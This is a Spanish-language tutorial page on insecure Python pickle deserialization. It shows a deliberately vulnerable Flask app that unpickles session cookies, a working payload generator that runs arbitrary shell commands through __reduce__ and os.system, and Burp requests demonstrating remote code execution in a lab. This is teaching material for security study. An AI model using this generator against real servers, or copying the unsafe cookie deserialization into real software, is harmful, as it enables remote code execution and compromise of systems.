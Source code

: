 ```yaml
---
icon: python
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Deserialización Insegura Python

## Pagina Vulnerable Deserialización Insegura en Python

Si nosotros por ejemplo tenemos este codigo de `python` como una pagina por ejemplo:

> app.py

```python
import pickle
import base64
from flask import Flask, request, make_response, render_template, redirect, url_for

app = Flask(__name__)

# Base de datos de usuarios (simulada)
users = {
    "admin": "admin123",
    "user1": "password1",
    "user2": "password2"
}

# Clase del usuario (con deserialización insegura)
class User:
    def __init__(self, username, role):
        self.username = username
        self.role = role

    def __str__(self):
        return f"{self.username} ({self.role})"

@app.route("/")
def index():
    # Obtener la cookie
    session_cookie = request.cookies.get("session")

    if session_cookie:
        try:
            # Deserializar la cookie (VULNERABILIDAD)
            user = pickle.loads(base64.b64decode(session_cookie))
        except Exception as e:
            user = f"Error deserializando: {e}"
    else:
        user = "Invitado"

    return render_template("index.html", user=user)

@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]

        if username in users and users[username] == password:
            # Crear el objeto de usuario
            user = User(username, "admin" if username == "admin" else "user")

            # Serializar el objeto inseguramente con pickle
            session_data = base64.b64encode(pickle.dumps(user)).decode()

            # Crear la cookie con la sesión serializada
            response = make_response(redirect(url_for("index")))
            response.set_cookie("session", session_data)

            return response
        else:
            return "Credenciales inválidas", 403

    return render_template("login.html")

if __name__ == "__main__":
    app.run(debug=True)
```

Vemos que no valida la entrada que se serializa y la `deserializa` lo que venga de forma insegura, ya que no tiene ninguna medida de seguridad, si entramos en la pagina veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

El usuario por defecto sera el siguiente:

```
admin:admin123
```

Ingresamos las credenciales y abriremos `BurpSuite` para recargar la pagina con la sesion iniciada del usuario user y veremos lo siguiente en la `peticion` con `BurpSuite`:

> Peticion de `BurpSuite`

```
GET / HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/login
Connection: keep-alive
Cookie: session=gASVOgAAAAAAAACMA2FwcJSMBFVzZXKUk5QpgZR9lCiMCHVzZXJuYW1llIwFYWRtaW6UjARyb2xllIwFYWRtaW6UdWIu
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Vemos que la `serializacion` esta en `session=` por lo que tendremos que reemplazar su contenido, por otro codigo serializado con el comando que queramos ejecutar.

## Generar Payload Serializado en Base64

Nos crearemos un script en `python3` para generar codigos `serializados`:

> exploitSerial.py

```python
import pickle
import base64
import os
import argparse

class RCE:
    def __init__(self, command):
        self.command = command

    def __reduce__(self):
        return (os.system, (self.command,))

def generate_payload(command):
    """Genera una cookie maliciosa con el comando proporcionado."""
    try:
        payload = base64.b64encode(pickle.dumps(RCE(command))).decode()
        print(f"[+] Payload generado con el comando: {command}")
        print(f"[+] Cookie maliciosa: {payload}")
    except Exception as e:
        print(f"[!] Error generando el payload: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Generador de cookies maliciosas con RCE en Flask")
    parser.add_argument("command", help="Comando a ejecutar en el servidor víctima")

    args = parser.parse_args()
    generate_payload(args.command)
```

Ahora lo ejecutaremos de la siguiente forma:

```shell
python3 exploitSerial.py 'touch /var/www/html/text.txt | whoami > /var/www/html/text.txt'
```

Info:

```
[+] Payload generado con el comando: touch /var/www/html/text.txt | whoami > /var/www/html/text.txt
[+] Cookie maliciosa: gASVWQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD50b3VjaCAvdmFyL3d3dy9odG1sL3RleHQudHh0IHwgd2hvYW1pID4gL3Zhci93d3cvaHRtbC90ZXh0LnR4dJSFlFKULg==
```

## Enviar Payload al servidor

Ahora este resultado tendremos que pegarlo en la peticion donde `session=` quedando de la siguiente forma:

```
GET / HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/login
Connection: keep-alive
Cookie: session=gASVWQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD50b3VjaCAvdmFyL3d3dy9odG1sL3RleHQudHh0IHwgd2hvYW1pID4gL3Zhci93d3cvaHRtbC90ZXh0LnR4dJSFlFKULg==
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Ahora si enviamos la `peticion` veremos lo siguiente en la pagina:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que algo ha sido modificado, por lo que podemos deducir que si ha funcionado correctamente.

Vamos a irnos directamente a la `IP` para ver si el archivo se subio de forma correcta:

```
URL = http://<IP>/text.txt
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado, por lo que podremos generar `payloads` y ejecutar codigo de forma remota.

